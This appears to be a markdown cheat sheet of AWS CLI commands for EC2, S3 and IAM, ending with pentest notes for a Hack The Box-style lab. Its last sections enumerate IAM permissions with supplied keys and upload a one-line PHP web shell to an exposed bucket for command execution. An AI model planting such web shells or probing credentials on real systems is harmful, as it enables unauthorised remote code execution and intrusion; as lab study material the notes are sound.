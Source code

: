 - [Profile Configuration](#pc)
- [EC2](#ec2)
- [S3](#s3)
- [iam](#iam)
- [aws bucket list](#awsbl)
- [aws reverse shell](#awsrs)

# Profile configuration <a name="pc"></a>
```bash
aws configure --profile <profile_name>
```
It will be necessary to introduce the **AWS ACCESS KEY ID** and the **AWS SECRET ACCESS KEY** of your account. Also, you need to specify the region name and the output format.

## Actual profile information
```bash
aws sts get-caller-identity --profile <profile_name>
```
# EC2 <a name="ec2"></a>

## General commands
- Create key pair:
```bash
aws ec2 create-key-pair --key-name <key_pair_name> --query 'KeyMaterial' --output text > <key_pair_name>
```
- Create and run instance: 
```bash
aws ec2 run-instances --image-id <image-id> --count 1 --instance-type t2.micro --key-name <key_name>
```
- List created instances:
```bash
aws ec2 describe-instances
```
- Terminate instance:
```bash
aws ec2 terminate-instances --instance-ids <instance_id>
```
- Delete key pair:
```bash
aws ec2 delete-key-pair --key-name <key_pair_name>
```

# S3 <a name="s3"></a>

## General commands
- Create a bucket:
```bash
aws s3 mb s3://<bucket_name>
```
The bucket name needs to be unique.

- List buckets:
```bash
aws s3 ls
```
- List an specific bucket:
```bash
aws s3 ls s3://<bucket_name>
```
- Copy a local file to the bucket:
```bash
aws s3 cp <file_name> s3://<bucket_name>
```
- Copy a bucket file to the actual localhost directory:

```bash
aws s3 cp s 3://<bucket_name>/<file_name> ./
```
- Delete file from a bucket
```bash
aws s3 rm s3://<bucket_name>/<file_name>
```
- Sync bucket data with a local directory:
```bash
aws s3 sync s3://<bucket_name> <local_directory>
```
- Eliminate all the contents of the bucket:
```bash
aws s3 rm s3://<bucket_name> --recursive
```
- Eliminate bucket:
```bash
aws s3 rb s3://<bucket_name> --recursive
```

# IAM <a name="iam"></a>

## General commands
- Create an IAM group:
```bash
aws iam create-group --group-name <group_name>
```
- Create IAM user:
```bash
aws iam create-user --user-name <username>
```
- Add user to a group:
```bash
aws iam add-user-to-group --user-name <username> --group-name <group_name>
```
- List group users:
```bash
aws iam get-group --group-name <group_name>
```
- Assign permissions to a user using policies:
```bash
aws iam attach-user-policy --user-name <username> --policy-arn arn:aws:iam::aws:policy/Amazons3FullAccess
```
- Create access key for a user:
```bash
aws iam create-access-key --user-name <username>
```
- List all users:
```bash
aws iam list-users
```

## Permissions enumeration - enumerate-iam.py
This script will enumerate all the services that can be used for this user. This script can be easily detected as it does a lot of querys in few time.
```bash
python3 enumerate-iam.py --access-key <access_key> --secret-key <secret_key>
```
# aws bucket list <a name="awsbl"></a>

The `aws bucket list` command is used to list the contents of the buckets found within a subdomain hosted on AWS. It is useful for finding files such as `index.php`, etc.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `ls`: Lists the directory.
- `s3://{bucket name}`: Name of the bucket to interact with.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

# aws reverse shell <a name="awsrs"></a>

The `aws reverse shell` command is used to copy files from your local machine to one of the AWS buckets. After copying the file, you can access it and enter commands.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `cp`: Copies the specified file, in this case, `shell.php`, to the bucket.
- `shell.php`: The file to be copied, containing `<?php system($_GET["cmd"]); ?>` code.
- `s3://{bucket name}`: Name of the bucket to interact with.

````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````